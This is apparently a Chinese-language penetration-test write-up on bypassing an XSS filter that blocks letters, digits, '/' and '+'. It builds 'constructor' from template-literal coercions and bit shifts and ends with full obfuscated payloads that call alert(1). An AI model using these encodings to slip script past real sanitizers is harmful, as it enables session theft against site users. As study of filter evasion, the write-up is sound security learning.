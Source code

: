 ​	最近在一次渗透中遇到了一个XSS，整个过程比较有趣，故记录下来。

​	该漏洞的输入点在后端过滤了数字、字母和斜杠（/），而输出点的位置在script标签内的字符串变量声明里，我们只需构造一个'-payload-'这样的payload便可以触发XSS，首先可以想到的是利用JSFuck，但不幸的是，后端还过滤了加号（%2b），于是便有了这篇文章的思路。

` 注，该漏洞的绕过方式还有很多种，这里仅仅只是提供一种绕过思路，算是对JSFuck的学习和拓展。`

​	这里首先提供一个思路

```javascript
[]["constructor"]["constructor"]("alert(1)")() 
```

​	在这种情况下，我们只需要构造出"constructor\"以及payload的字符串即可触发XSS。一个有意思的玩法便是通过字符串模板来构造，当然这里离不开${}和反引号。用几个例子来展示一下：

```javascript
![]  //  false

`![]`  //  "![]"

`${![]}`  //  "false"
```

​	字符串模板中的占位符的执行优先级是高于反引号的，我们可以利用占位符得到我们想要的对象，再得到其字符串。

```javascript
`${!![]}`   //  "true"

`${![]}`  //  "false"

`${{}}`   //   "[object Object]"

`${[][[]]}`  //  "undefined"
```

​	已经得到这么多字符串的情况下，我们可以利用索引来获取我们想要的字符，但加号被过滤了，我们还有什么办法可以快速构造数字的呢？

​	JS是弱类型语言，我们仅需要简单的运算即可得到基础的数字：

```javascript
[]-[]  //  0    0b0

!![]-[]  //  1    0b1

!![]<<!![]  //  2    0b10

!![]<<!![]<<!![]  // 4    0b100
```

​	通过位运算符得到这些基础数字后，可以执行的操作就很多了，我使用的是或运算，实际情况中还可以考虑其他的运算符。

```javascript
(!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![])|(!![]<<![])  //  233
```

​	剩下的就是构造payload的时候了，通过我们前面所说的`[]["constructor"]["constructor"]("alert(1)")() ` 思路，按部就班的做就可以了。

```javascript
`${{}}`[!![]<<!![]<<!![]|!![]-[]]   //  "c"

`${{}}`[!![]-[]]  //  "o"

`${[][[]]}`[!![]-[]]  //  "n"

`${![]}`[!![]-[]|!![]<<!![]]  //  "s"

`${!![]}`[[]-[]]  //  "t"

`${!![]}`[!![]-[]]  //  "r"

`${[][[]]}`[[]-[]]  //  "u"

`${{}}`[!![]<<!![]<<!![]|!![]-[]]   //  "c"

`${!![]}`[[]-[]]  //  "t"

`${{}}`[!![]-[]]  // "o"

`${!![]}`[!![]-[]]  //  "r"
```

​	拼接这些字符为一整个字符串。

```javascript
`${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${{}}`[!![]-[]]}${`${[][[]]}`[!![]-[]]}${`${![]}`[!![]-[]|!![]<<!![]]}${`${!![]}`[[]-[]]}${`${!![]}`[!![]-[]]}${`${[][[]]}`[[]-[]]}${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${!![]}`[[]-[]]}${`${{}}`[!![]-[]]}${`${!![]}`[!![]-[]]}`   //  "constructor"

['constructor']['constructor']('alert(1)')()
```

​	构造payload

```javascript
_=`${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${{}}`[!![]-[]]}${`${[][[]]}`[!![]-[]]}${`${![]}`[!![]-[]|!![]<<!![]]}${`${!![]}`[[]-[]]}${`${!![]}`[!![]-[]]}${`${[][[]]}`[[]-[]]}${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${!![]}`[[]-[]]}${`${{}}`[!![]-[]]}${`${!![]}`[!![]-[]]}`;

[][_][_](`${`${!![][~[]]}`[!!{}<<![]]}${`${!![][~[]]}`[!!{}<<!![]]}${`${![][~[]]}`[(!![]<<!![])|!![]]}${`${![][~[]]}`[!!{}<<![]]}${`${![][~[]]}`[!{}<<![]]}(${!!{}<<![]})`)()
```

​	简略的写法也可以写成这样

```javascript
([,__,,,,___,____]=`${{}}`,[_____,,,_________,,,______,,,,__________,___________,_______,,,________]=`${[][~[]]}${!![][~[]]}${![][~[]]}`)[_=`${___}${__}${______}${_______}${____}${________}${_____}${___}${____}${__}${________}`][_](`${__________}${___________}${_________}${________}${____}(${[]-[]})`)()
```

